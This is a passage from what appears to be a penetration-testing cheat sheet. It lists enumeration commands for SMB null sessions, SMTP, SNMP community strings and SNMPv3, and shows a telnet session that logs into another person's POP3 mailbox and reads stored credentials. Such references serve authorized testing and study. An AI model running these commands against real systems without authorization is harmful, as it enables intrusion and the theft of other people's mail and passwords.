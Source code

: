         Windows: `net use \\$ip\IPC$ "" /u:""`

        Linux: `smbclient -L //$ip`


-   SMTP Enumeration - Mail Severs

    -   Verify SMTP port using Netcat
        `nc -nv $ip 25`

-   POP3 Enumeration - Reading other peoples mail - You may find usernames and passwords for email accounts, so here is how to check the mail using Telnet

         root@kali:~# telnet $ip 110
         +OK beta POP3 server (JAMES POP3 Server 2.3.2) ready
         USER billydean
         +OK
         PASS password
         +OK Welcome billydean

         list

         +OK 2 1807
         1 786
         2 1021

         retr 1

         +OK Message follows
         From: jamesbrown@motown.com
         Dear Billy Dean,

         Here is your login for remote desktop ... try not to forget it this time!
         username: billydean
         password: PA$$W0RD!Z


-   SNMP Enumeration -Simple Network Management Protocol

    -   Fix SNMP output values so they are human readable
        `apt-get install snmp-mibs-downloader download-mibs  `
        `echo "" > /etc/snmp/snmp.conf`

    -   SNMP Enumeration Commands

        -   `snmpcheck -t $ip -c public`

        -   `snmpwalk -c public -v1 $ip 1|`

        -   `grep hrSWRunName|cut -d\* \* -f`

        -   `snmpenum -t $ip`

        -   `onesixtyone -c names -i hosts`

    -   SNMPv3 Enumeration
        `nmap -sV -p 161 --script=snmp-info $ip/24`

    -   Automate the username enumeration process for SNMPv3:
        `apt-get install snmp snmp-mibs-downloader  `
        `wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb`
